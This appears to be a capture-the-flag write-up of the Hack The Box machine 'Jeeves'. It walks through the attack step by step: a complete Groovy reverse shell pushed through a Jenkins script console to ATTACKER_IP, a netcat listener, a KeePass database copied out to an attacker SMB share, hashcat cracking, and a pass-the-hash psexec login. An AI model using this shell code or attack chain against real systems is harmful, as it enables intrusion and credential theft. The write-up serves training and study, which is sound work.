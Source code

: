 # HTB - Jeeves Writeup

## Reconnaissance
```bash
sudo nmap -Pn -p- -A -T4 10.129.234.197
```

**Key Findings:**
```
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0 (Ask Jeeves)
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Windows SMB
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
```

## Enumeration
### Web Services
1. **Port 80 (IIS):** Basic static page with no significant functionality
2. **Port 50000 (Jetty):** 
   - Directory scan revealed `/askjeeves` (Jenkins instance)
   - Jenkins version: 2.289.2 (vulnerable to script console RCE)

### SMB Service
- Anonymous access not permitted
- Workgroup name: WORKGROUP

## Exploitation
### Jenkins Script Console RCE
1. Created Jenkins project with Groovy reverse shell:
```groovy
String host="ATTACKER_IP";
int port=4444;
String cmd="cmd.exe";
Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s = new Socket(host,port);
InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();
OutputStream po = p.getOutputStream(), so = s.getOutputStream();
while(!s.isClosed()) {
  while(pi.available()>0) so.write(pi.read());
  while(pe.available()>0) so.write(pe.read());
  while(si.available()>0) po.write(si.read());
  so.flush();
  po.flush();
  Thread.sleep(50);
  try { p.exitValue(); break; } 
  catch (Exception e) {}
};
p.destroy();
s.close();
```

2. Obtained reverse shell as `kohsuke`:
```bash
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.39] from (UNKNOWN) [10.129.234.197] 49689
Microsoft Windows [Version 10.0.10586]
c:\Program Files (x86)\Jenkins>
```

### User Flag
```cmd
C:\Users\kohsuke\Desktop>type user.txt
7b0b********************************
```

## Privilege Escalation
### KeePass Database Extraction
1. Discovered password database:
```cmd
C:\Users\kohsuke\Documents>dir
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1
12/24/2017  03:47 AM            15,360 CEH.kdbx
```

2. Transferred to attacker machine via SMB:
```bash
# Attacker:
impacket-smbserver share $(pwd)

# Target:
copy CEH.kdbx \\ATTACKER_IP\share\
```

### KeePass Cracking
1. Extracted hash:
```bash
keepass2john CEH.kdbx > hash.txt
```

2. Cracked password:
```bash
hashcat -m 13400 hash.txt /usr/share/wordlists/rockyou.txt
```
**Password:** `moonshine1`

### Database Contents
```
administrator:S1TjAtJHKsugh9oC4VZl
NTLM Hash: aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
```

### Admin Access
```bash
impacket-psexec administrator@10.129.234.197 -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
```

### Root Flag (Alternate Data Stream)
```cmd
C:\Users\Administrator\Desktop>dir /r
12/24/2017  03:51 AM                36 hm.txt
                                    34 hm.txt:root.txt:$DATA

C:\Users\Administrator\Desktop>powershell (Get-Content hm.txt -Stream root.txt)
afbc********************************
```

## Attack Chain Summary
1. Exploited Jenkins Groovy script console → Initial access
2. Found KeePass database → Extracted credentials
3. Cracked KeePass password → Obtained administrator hash
4. Pass-the-hash attack → SYSTEM access
5. Retrieved root flag from Alternate Data Stream

## Mitigation Recommendations
1. Restrict Jenkins script console access
2. Implement KeePass database encryption best practices
3. Disable NTLM hashing in domain environment
4. Monitor for pass-the-hash attacks
5. Remove Alternate Data Streams containing sensitive data
